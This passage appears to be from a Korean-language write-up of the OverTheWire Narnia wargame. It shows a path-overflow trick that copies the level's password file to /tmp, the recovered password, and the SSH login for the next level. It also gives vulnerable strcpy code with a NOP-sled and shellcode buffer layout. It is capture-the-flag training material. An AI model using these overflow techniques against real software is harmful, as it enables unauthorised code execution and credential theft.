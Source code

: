 ```
```
narnia3@narnia:/narnia$ ./narnia3 /tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb/tmp/password
copied contents of /tmp/bbbbbbbbbbbbbbbbbbbbbbbbbbb/tmp/password to a safer place... (/tmp/password)
narnia3@narnia:/narnia$ cat /tmp/password
thaenohtai
```

<br>

```
password : thaenohtai
```

<br><br>

## Level 4 -> Level 5

<br>

```
ssh narnia4@narnia.labs.overthewire.org -p 2226
```

<br>

```c
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
    int i;
    char buffer[256];

    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));

    if(argc>1)
        strcpy(buffer,argv[1]);

    return 0;
}
```

<br>

입력을 ```[ebp-260]```부터 받음.  따라서 ```119 nop + 25 shell + 120 nop + ret```

<br>
